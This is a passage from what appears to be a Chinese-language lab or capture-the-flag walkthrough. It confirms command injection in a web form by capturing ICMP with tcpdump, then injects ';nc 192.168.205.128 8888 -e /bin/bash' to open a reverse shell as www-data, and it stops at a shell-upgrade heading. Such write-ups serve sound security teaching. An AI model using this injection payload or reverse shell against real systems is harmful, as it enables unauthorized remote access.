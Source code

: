为验证命令注入，我们在 Web 表单中输入攻击者的 IP 地址 `192.168.205.128`，并期望目标服务器执行 `ping 192.168.205.128`。同时，在攻击者机器上启动 `tcpdump` 监听 ICMP 流量。

```bash
┌──(kali㉿kali)-[~/test]
└─$ sudo tcpdump -A -n icmp
# -A: 以 ASCII 打印报文内容
# -n: 不解析主机名
# icmp: 只捕获 ICMP 协议流量
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

![](https://hub.gitmirror.com/https://github.com/7r1UMPH/7r1UMPH.github.io/blob/main//static/image/20250411202357686.png)

在 Web 页面提交 IP 后，`tcpdump` 捕获到来自目标 IP 的 ICMP 请求：

```bash
20:23:39.932006 IP 192.168.205.185 > 192.168.205.128: ICMP echo request, id 1016, seq 1, length 64
# ... (其他 ICMP 请求和响应) ... 
```

这证实了 Web 应用确实执行了用户输入的命令（至少是 `ping`），存在命令注入漏洞。

### 2.2. 漏洞利用 (Exploitation - Reverse Shell)

利用命令注入点执行一个反向 Shell Payload。使用分号 `;` 作为命令分隔符，先结束可能存在的 `ping` 命令，然后执行 `netcat` 命令将目标服务器的 `/bin/bash` Shell 反弹回攻击者机器。

* **Payload:**

  ```
  ;nc 192.168.205.128 8888 -e /bin/bash
  ```

  (注意：`;` 确保 `nc` 命令独立执行。`-e /bin/bash` 指定连接成功后执行的程序。)

* **攻击者监听:** 在 Kali 上使用 `netcat` 监听 8888 端口。

  ```bash
  ┌──(kali㉿kali)-[~/test]
  └─$ nc -lvnp 8888
  # -l: 监听模式
  # -v: 详细输出
  # -n: 不解析主机名
  # -p 8888: 指定监听端口
  listening on [any] 8888 ...
  ```

* **获取 Shell:** 在 Web 页面提交 Payload 后，攻击者的 `nc` 监听器接收到连接。

  ```bash
  connect to [192.168.205.128] from (UNKNOWN) [192.168.205.185] 56366
  # 此时已获得目标服务器 Shell，用户为 www-data
  ```

  成功获取了运行 Web 服务器的用户 (`www-data`) 的 Shell。

### 2.3. Shell 升级 (Shell Upgrade)
